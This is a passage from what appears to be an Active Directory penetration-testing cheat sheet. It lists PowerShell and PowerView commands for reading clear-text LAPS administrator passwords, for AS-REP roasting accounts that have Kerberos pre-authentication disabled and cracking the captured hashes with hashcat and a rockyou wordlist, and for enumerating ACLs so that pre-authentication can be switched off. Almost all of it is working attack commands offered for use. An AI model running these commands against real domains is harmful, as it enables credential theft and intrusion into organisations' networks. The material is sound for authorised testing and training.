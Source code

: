 #### If retured groups, get the users:
```
$LAPSAdmins = Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins += Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins | select Name, distinguishedName | sort name -Unique | fortmat-table -auto
```

#### Read clear-text passwords:
```
Get-ADObject -SamAccountName <MACHINE NAME$> | select -ExpandProperty ms-mcs-admpwd
Get-DomainComputer -filter {ms-Mcs-AdmPwdExpirationTime -like '*'}

#LAPS Powershell cmdlet
Get-AdmPwdPassword -ComputerName <MACHINE NAME>
```

## AS-REP Roasting
#### Enumerating accounts with kerberos preauth disabled
```
. .\Powerview_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```
```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

#### Request encrypted AS-REP
```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

#### Enumerate all users with kerberos preauth disabled and request a hash
```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

#### Crack the hash with hashcat
Edit the hash by inserting '23' after the $krb5asrep$, so $krb5asrep$23$.......
```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

### Set pre-auth not required
- With enough rights (GenericWrite of GenericAll) it is possible to set pre-auth not required.

#### Enumerate permissions for group
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```
